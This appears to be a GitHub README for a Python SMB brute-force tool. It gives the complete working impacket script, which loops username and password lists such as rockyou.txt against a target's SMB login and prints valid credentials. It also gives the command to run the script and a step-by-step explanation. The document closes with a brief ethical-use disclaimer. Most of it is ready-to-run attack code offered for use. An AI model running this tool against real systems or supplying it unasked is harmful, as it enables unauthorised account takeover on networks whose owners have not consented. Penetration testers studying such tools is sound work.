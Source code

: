 # SMB Brute Force Tool
### SMB Brute Force Script Documentation

This documentation provides details on how to use the SMB Brute Force Script written in Python using the `impacket` library. This script attempts to brute force SMB login credentials on a specified target by trying combinations from provided username and password lists.

#### Prerequisites

Ensure you have Python installed. You also need the `impacket` library, which can be installed using `pip`:

```bash
pip install impacket
```

#### Script Description

The script performs the following functions:

1. **smb_login_test**: Attempts to log in to the SMB service on the target IP with the provided username and password.
2. **load_list_from_file**: Loads a list of usernames or passwords from a file, ensuring each entry is stripped of whitespace.
3. **brute_force_smb**: Iterates through combinations of usernames and passwords, calling `smb_login_test` for each combination.

#### Usage

To run the script, save it to a file named `smb_bruteforce.py` and execute it from the terminal with the necessary arguments.

##### Command Line Arguments

- `target_ip`: The IP address of the target SMB server.
- `-l` or `--userlist`: The path to the file containing the list of usernames.
- `-p` or `--passlist`: The path to the file containing the list of passwords.

##### Example Command

```bash
python smb_bruteforce.py <target ip> -l common_user.txt -p rockyou.txt
```

In this example:
- `192.168.1.10` is the target SMB server's IP address.
- `common_user.txt` is the file containing usernames.
- `rockyou.txt` is the file containing passwords.

#### Script Explanation

```python
import argparse
from impacket.smbconnection import SMBConnection
import time

def smb_login_test(target_ip, username, password, domain='', timeout=10):
    try:
        smb_connection = SMBConnection(target_ip, target_ip)
        smb_connection.login(username, password, domain)
        print(f"[+] Login successful on {target_ip} with username '{username}' and password '{password}'")
        smb_connection.logoff()
        return True
    except Exception as e:
        print(f"[-] Login failed on {target_ip} with username '{username}' and password '{password}'")
        return False

def load_list_from_file(file_path):
    try:
        with open(file_path, 'r', encoding='ISO-8859-1') as file:
            return [line.strip() for line in file.readlines()]
    except Exception as e:
        print(f"Error reading {file_path}: {e}")
        return []

def brute_force_smb(target_ip, username_list, password_list, domain=''):
    for username in username_list:
        for password in password_list:
            if smb_login_test(target_ip, username, password, domain):
                print(f"[!] Valid credentials found: {username} / {password}")
                return True
            time.sleep(1)  # Sleep to avoid rapid requests that may lock accounts
    return False

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="SMB Brute Force Script")
    parser.add_argument("target_ip", help="Target IP address")
    parser.add_argument("-l", "--userlist", required=True, help="Path to the username list file")
    parser.add_argument("-p", "--passlist", required=True, help="Path to the password list file")

    args = parser.parse_args()

    target_ip = args.target_ip
    username_file = args.userlist
    password_file = args.passlist

    username_list = load_list_from_file(username_file)
    password_list = load_list_from_file(password_file)

    if username_list and password_list:
        brute_force_smb(target_ip, username_list, password_list)
    else:
        print("Username list or password list is empty.")
```

### Detailed Steps

1. **Import Necessary Libraries**:
   The script imports the necessary libraries: `argparse` for parsing command line arguments, `SMBConnection` from `impacket` for SMB connections, and `time` for adding delay between login attempts.

2. **Define smb_login_test Function**:
   This function attempts to establish an SMB connection using the provided username and password. If successful, it prints a success message and logs off. If unsuccessful, it prints a failure message.

3. **Define load_list_from_file Function**:
   This function reads a file and returns a list of lines, stripped of any leading or trailing whitespace. It uses `ISO-8859-1` encoding to handle special characters in the `rockyou.txt` file.

4. **Define brute_force_smb Function**:
   This function takes a target IP, lists of usernames and passwords, and attempts to log in to the SMB server using each combination. It prints valid credentials if a successful login is found.

5. **Main Execution Block**:
   The script parses command line arguments for the target IP, username list file, and password list file. It then loads these lists and calls `brute_force_smb` to start the brute force attack.

### Notes

- **Ethical Use**: This script should only be used for ethical hacking and with permission from the owner of the target system.
- **Legal Implications**: Unauthorized use of this script can be illegal and punishable by law. Always ensure you have explicit permission before running any penetration testing tools.

This documentation should provide a comprehensive guide on how to use and understand the SMB Brute Force Script. If you have any questions or need further assistance, feel free to ask.
